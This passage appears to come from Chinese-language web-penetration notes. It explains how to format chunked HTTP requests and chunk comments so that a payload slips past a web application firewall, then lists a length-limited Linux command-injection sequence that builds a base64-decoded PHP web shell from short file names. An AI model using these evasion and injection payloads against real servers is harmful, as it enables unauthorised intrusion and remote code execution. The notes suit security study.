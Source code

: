 注意:第2块,第3块,第7块,和第8块.

第2块中需要满足
```
长度值
空行
Content-Disposition: name="id"
空行
```

这种形式,且长度值要将两个空行的长度计算在内(空行长度为2).

第3块,即数据开始部分需满足
```
长度值
空行
数据
```

形式,且需将空行计算在内.

第7块即分割边界结束部分,需满足
```
长度值
空行
分割结束符
空行
```

形式,且计算空行长度在内.

第8块需满足
```
0空格
空行
空行
```
形式.如果不同时满足这四块的形式要求,payload 将不会生效.

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `";"` 作为注释,如:
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

---

## 长度

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
```